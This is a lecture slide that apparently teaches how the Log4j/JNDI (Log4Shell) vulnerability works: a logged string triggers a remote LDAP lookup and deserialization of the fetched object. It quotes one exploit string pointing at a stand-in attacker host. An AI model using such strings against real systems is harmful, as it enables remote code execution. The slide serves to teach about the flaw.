

# Log4j and JNDI (Java Naming & Directory Interface)
JNDI (Java Naming & Directory Interface): A service to fetch data from outside places (e.g. the Internet)
Log4j has a pretty powerful format string parser
After the logged string is fully created, Log4j parses the format strings again
Suppose Log4j saw the string ${jndi:ldap://attacker.com/pwnage}
Log4j thinks: “This is a JNDI object I need to include’
Java thinks: “Okay, let’s get that object from attacker.com”
Java thinks: “Okay, let’s deserialize that Java object”
Takeaway: Because a logged string included a reference that Java fetches from the network and deserializes, the attacker can use it to exploit programs!
111